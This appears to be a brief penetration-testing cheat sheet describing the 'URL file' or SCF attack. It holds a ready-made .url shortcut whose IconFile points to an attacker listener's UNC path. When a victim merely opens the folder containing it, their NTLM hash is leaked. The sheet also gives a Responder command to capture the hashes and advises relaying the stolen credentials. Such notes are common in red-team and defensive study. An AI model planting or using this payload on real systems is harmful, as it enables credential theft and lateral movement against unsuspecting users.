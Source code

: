 ### URL File Attack AKA SCF Attack

### File
` saveas: "@something.url" `
```html
[InternetShortcut] 
URL=blah 
WorkingDirectory=blah 
IconFile=\\<listener IP: x.x.x.x>\%USERNAME%.icon 
IconIndex=1
```
this file has to be in victim machine folder

```sh
> responder -I <interface> -v

# let the victim navigate to the URL FIle in victim machine. once the folder where files in loaded, check responder.
# hashes will be captured in the responder.

# just load is enough. no need of executing the url file by victim.

# Try relaying the creds after responder catches it.

```


### Reference: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#scf-and-url-file-attack-against-writeable-share 